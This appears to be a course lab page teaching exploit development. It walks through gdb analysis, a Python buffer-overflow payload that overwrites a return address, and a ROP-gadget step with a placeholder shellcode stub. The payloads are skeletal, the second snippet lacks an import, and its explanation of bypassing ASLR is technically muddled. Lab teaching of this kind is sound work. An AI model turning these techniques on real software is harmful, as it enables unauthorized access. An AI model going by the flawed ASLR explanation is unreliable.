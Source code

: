 ```yaml
---
title: "Exploit Development & Binary Exploitation Lab"
description: "Learn how to develop exploits, analyze binaries, and bypass security protections."
date: 2025-03-08
tags: ["Exploit Development", "Binary Exploitation", "Reverse Engineering", "Offensive Security"]
categories: ["Advanced Security & Penetration Testing"]
draft: false
---
```


# Exploit Development & Binary Exploitation Lab

## **Overview**
This lab focuses on offensive security techniques involving binary exploitation and exploit development. Students will learn how to analyze vulnerable binaries, manipulate memory, and craft custom exploits to gain unauthorized access.

## **What You Will Learn**
- Understanding memory corruption vulnerabilities (buffer overflows, format string exploits, heap exploitation)
- Using debuggers to analyze binary behavior
- Writing custom exploits in Python
- Bypassing security protections like ASLR and DEP

---

## **Lab Instructions**

### **1. Setting Up Your Environment**
You will need:
- A **Debian or Kali Linux VM** (VirtualBox, WSL, or cloud-based instance)
- Python3 installed (`sudo apt update && sudo apt install python3`)
- Exploitation tools: `gdb`, `pwntools`, `radare2`, `gef`, `ROPgadget`

#### **Install required tools:**
```bash
sudo apt install gdb gdb-multiarch python3-pwntools radare2 ropgadget
```

---

### **2. Identifying Vulnerabilities in a Binary**

#### **Step 1: Download the vulnerable binary**
```bash
wget https://example.com/vuln_binary -O vuln_binary
chmod +x vuln_binary
```

#### **Step 2: Analyze the binary**
```bash
gdb -q vuln_binary
```
```gdb
checksec vuln_binary  # Check security protections
run  # Execute the binary and observe behavior
```

---

### **3. Exploiting a Buffer Overflow**

#### **Step 1: Fuzzing Input to Find Overflow Point**
```python
#!/usr/bin/python3
import sys
import struct

offset = 100  # Modify based on test results
payload = b"A" * offset + struct.pack("<I", 0xdeadbeef)  # Overwrite return address

sys.stdout.buffer.write(payload)
```
Save as `exploit.py` and run:
```bash
python3 exploit.py | ./vuln_binary
```

---

### **4. Bypassing ASLR with ROP Chains**

#### **Step 1: Generate a ROP chain**
```bash
ROPgadget --binary vuln_binary --only "pop|ret"
```
#### **Step 2: Modify exploit to include ROP gadgets**
```python
import struct

pop_ret = struct.pack("<I", 0x08048484)  # Example gadget address
shellcode = b"\x90" * 16 + b"..."  # Inject shellcode

payload = b"A" * 100 + pop_ret + shellcode
sys.stdout.buffer.write(payload)
```
Run again:
```bash
python3 exploit.py | ./vuln_binary
```

---

## **Final Submission**
- Submit a **Google Doc** with screenshots of your completed tasks.
- Ensure each screenshot has a **caption** explaining what was accomplished.
- Follow submission guidelines as provided by your instructor.

🚀 **Congratulations! You've completed the Exploit Development & Binary Exploitation Lab!** 🚀
